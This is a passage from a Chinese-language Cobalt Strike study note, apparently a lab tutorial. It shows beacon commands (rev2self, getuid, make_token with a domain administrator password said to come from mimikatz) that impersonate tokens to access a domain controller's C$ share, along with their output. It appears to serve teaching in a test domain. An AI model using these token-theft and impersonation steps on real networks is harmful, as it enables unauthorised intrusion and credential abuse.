 ```bash
[*] You are TEAMSSIX\administrator (admin)
再次尝试获取域控制器主机下的文件

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节


发现可以成功访问了，使用 rev2self 可移除当前窃取的令牌

beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
再次查看 uid 发现变成了原来的 SYSTEM 权限，此时 WIN-P2AASSD1AF1 主机上的文件也拒绝访问了。

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```
凭证 #
1、使用 make_token 创建一个令牌
```bash
make_token DOMAIN\user password
在运行命令之前，需要知道要获取令牌用户的密码，这里可以使用 mimikatz 进行获取，具体的方法可参考《CS学习笔记 | 14、powerup提权的方法》 (opens new window)这一节中的介绍。

这里还是和上文一样的环境，在一个 SYSTEM 会话下，获取 TEAMSSIX\administrator 账号令牌，使用 mimikatz 可以得知 TEAMSSIX\administrator 账号密码为 Test111!，接下来使用 make_token 命令。

beacon> make_token TEAMSSIX\administrator Test111!
[*] Tasked beacon to create a token for TEAMSSIX\administrator
[+] host called home, sent: 53 bytes
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
```